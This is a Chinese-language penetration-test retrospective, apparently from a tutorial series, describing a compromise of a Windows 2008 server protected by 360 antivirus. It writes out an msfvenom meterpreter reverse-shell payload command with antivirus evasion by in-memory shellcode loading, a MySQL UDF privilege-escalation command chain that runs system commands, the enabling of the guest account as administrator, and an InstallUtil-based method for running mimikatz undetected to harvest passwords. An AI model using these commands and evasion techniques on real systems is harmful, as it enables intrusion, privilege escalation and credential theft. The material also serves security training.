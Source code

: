 ### 13.7 项目回忆：体系的本质是知识点串联

**一次普通的项目，做完后，却陈思很久，遂打算一气合成把整个流程记录下来，此篇再一次的叮嘱我：分享便是我最好的老师 —Micropoor**

拿shell过程略过。（由于文章在项目实施结束形成，故部分无图或补图）

**目标机背景：**

windows 2008 r2 x64位 360主动 + 360卫士 + 360杀毒 + waf，目标机仅支持 aspx。运行 OAWeb 服务（.net+mssql），并且是内网中其他服务器的数据库服务器（mysql 数据库，不支持 php，无 .net for mysql 驱动）

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113534554.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**端口开放如下：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113548903.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**需要解决的第一个问题：payload**

由于目标机，安装某套装，payload 一定是必须要解决的问题。当 tasklist 的时候，看到如下图几个进程的时候，第一反应就是需要做 payload 分离免杀。分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了第三方分离免杀。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113606217.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**本地补图（由于项目在实施后形成该文章，故本地靶机补图）**

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

* * *

**0x00:以msf为例：监听端口**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113640377.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：**

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113710634.png%23pic_center)-
**0x02:既然是shellcode方式的payload，那么需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：**

    https://github.com/clinicallyinane/shellcode_launcher/
    
        

作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113750900.png%23pic_center)

生成的payload大小如下：476字节。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113758209.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
世界杀毒网：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113814579.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

上线成功。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113819994.png%23pic_center)

而关于自带安装分离免杀，请参考我在公司 Wiki 上写的第六十九课时`payload分离免杀思路第二季`

payload 反弹到 vps 的 msf 上，我的权限仅仅如下-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113842407.png%23pic_center)

* * *

**需要解决的第二个问题：提权**

参考主机背景图，184个补丁，以及某套装。遂放弃了exp提权。

    原因1：需要更多的时间消耗在对反病毒软件对抗。  
    原因2：目标机补丁过多。需要消耗更多的时间  
    原因3：非常艰难的环境下，拿到了权限，不想因为某些exp导致蓝屏从而丢失权限。
    
        

开始翻阅目标机上的文件，以及搜集目标机的端口，服务，启动等一系列信息。发现目标机安装mysql，并与内网其中一台建立大量连接。mysql版本为5.1.49-community-log

下载目标机`*..MYI，*.MYD，*.frm，`加载于本地mysql。得到目标机root密码-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113940863.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
而目标机没有相关脚本环境连接mysql，到这里，可以有2个方向针对该问题作出解决

    一：转发目标机端口到本地，从而操作mysql。  
    二：在非交互式下，完成mysql udf的提权。
    
        

为了减少目标主机的流量探测，以及维护来之不易的session，故选择了第二种方案。非交互式下，mysql提权。

命令行下，调用mysql是需要在启动一个mysql窗口，从而继续执行，而session下没有这样的条件。但mysql的 -e 参数 作为直接执行sql语句，从而不另启动窗口。而-e需要注意的事项，use database。

也就是所有参数需要mysql.xxxx![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012113959946.png%23pic_center)-
如没有指定database，将会出现如下错误，而使用UNION，将不会有回显，一定出现问题，将会很难定位，故选择以mysql.x的方式指定。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114017457.png%23pic_center)

大致流程如下：

    mysql -uroot -pXXXXXX -e "create table mysql.a (cmd LONGBLOB);" 
    mysql -uroot -pXXXXXX -e "insert into mysql.a (cmd) values (hex(load_file('D:\\XXXXXXXXXX\\mysql5\\lib\\plugin\\u.dll')));"
    mysql -u root -pXXXXXX -e "SELECT unhex(cmd) FROM mysql.a INTO DUMPFILE 'D:/XXXXXXXXXX/mysql5/lib/plugin/uu.dll';"
    mysql -uroot -pXXXXXX -e "CREATE FUNCTION shell RETURNS STRING SONAME 'uu.dll'" 
    mysql -uroot -pXXXXXX -e "select shell('cmd','whoami');"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114033194.png%23pic_center)

* * *

**需要解决的第三个问题：登录服务器**

在有套装的环境下，默认拦截cmd下加帐号，而目前又无法抓取系统登录明文。mimikatz被查杀。cmd下调用powershell被拦截。遂选择激活guest帐号，并提升到administrators组，来临时登录目标机。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114052133.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114110170.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *

**socks代理登录目标机：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114133892.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**需要解决的第四个问题：抓取目标机明文密码**

登录服务器后，目前依然不知道目标机的密码。这里有两种方向来解决该问题。

    一：关闭我能关闭的套装，由于管理员没有注销登录。能关闭的有限。  
    二：分离免杀做mimikatz密码抓取
    
        

**作者选择了第二种方案：**

这里需要用到csc.exe，与InstallUtil.exe-
关于两个文件默认安装位置：（注意x32，x64区别）

    C:\Windows\Microsoft.NET\Framework\
    C:\Windows\Microsoft.NET\Framework64\
    C:\Windows\Microsoft.NET\Framework\
    C:\Windows\Microsoft.NET\Framework64\
    
        

**分别执行：**

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
    C:\Users\Johnn\Desktop\mimi.cs
    
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114225292.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114231262.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *

**派生出的第五个问题：横向渗透**

关于第五个问题，本意并不是该篇幅所要讲述的，后续是搜集目标机的mssql，mysql，rdp 密码。搜集所在内网的拓扑，来辅助本次的横向扩展。便完成了本次的项目。 如需具体，请参考我在Wiki上的系列教程78，79，12，13，71课时-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012114351982.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
后者的话： 本次的整个流程，并没有遇到太多的问题，仅仅是把几个知识点的串联起来，形成的一个完整的渗透。也许你了解知识点1，也了解知识点2，还了解知识点3等等。但是一次完整的项目是离不开每一个知识点的串联与灵活运用。这应该是每一个信息安全从业人员值得思考的问题

* * *